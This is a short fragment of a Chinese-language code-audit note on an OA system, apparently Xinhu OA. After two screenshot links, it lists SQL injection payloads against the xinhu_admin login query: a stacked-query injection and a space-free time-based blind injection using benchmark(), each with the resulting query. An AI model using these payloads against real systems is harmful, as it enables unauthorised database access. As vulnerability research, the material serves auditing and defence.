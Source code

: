 ![image-20241031002208122](新律OA代码审计/image-20241031002208122.png)

![image-20241031002246583](新律OA代码审计/image-20241031002246583.png)

堆叠注入

```
select * from xinhu_admin where `user` = 'asdfasdf';select username from ('username','admin')a where username=1;
```

无空格的时间盲注

```
asdfasdf'or(benchmark(10000000,encode("hello","good")))--
```

```
select * from xinhu_admin where `user` = 'asdfasdf'or(benchmark(10000000,encode("hello","good")))--
```
